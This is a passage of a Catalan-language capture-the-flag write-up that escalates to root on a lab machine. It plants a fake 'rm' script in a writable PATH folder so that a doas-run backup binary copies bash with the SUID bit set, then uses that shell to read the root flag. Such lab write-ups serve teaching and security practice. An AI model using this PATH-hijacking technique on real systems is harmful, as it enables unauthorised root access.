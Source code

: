 ```bash
/usr/bin/mysqldump --databases %s > /tmp/temp.sql && /usr/bin/gzip /tmp/temp.sql -c > %s && rm /tmp/temp.sql
```

Com podem utilitzar la nostra variable d'entorn `PATH` mentre executem el binari `backups` que utilitza la llibreria `libbackup.so`, aprofitem això per escalar privilegis.

La variable `PATH` de `julian` ja té diferents carpetes on podem escriure.

```bash
julian@solar:~$ echo $PATH
/home/julian/.nvm/versions/node/v22.7.0/bin:/home/julian/.local/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Creem un fitxer `rm` executable; és l'únic binari que s'executa sense un path absolut a la llibreria `libbackup.so`.

```bash
julian@solar:~$ nano .local/bin/rm

julian@solar:~$ cat .local/bin/rm
#!/bin/bash

cp /bin/bash /tmp/
chmod u+s /tmp/bash

julian@solar:~$ chmod +x .local/bin/rm
```

Executem el binari `backups` amb `doas` utilitzant la contrasenya de `julian` i la base de dades que existeix. Això últim és important perquè, si no, mai arribarà a executar el `rm`.

```bash
julian@solar:~$ doas /usr/local/bin/backups solar_energy_db
doas (julian@solar) password:
Backup completed successfully: /var/www/sunfriends.nyx/database.sql.gz

julian@solar:~$ ls -la /tmp/bash
-rwsr-xr-x 1 root root 1265648 sep  4 22:08 /tmp/bash
```

Utilitzant el binari `bash` amb SUID, podem accedir com a `root` i llegir la flag.

```bash
julian@solar:~$ /tmp/bash -p

bash-5.2# cat /root/root.txt
44d**************************5f5
```
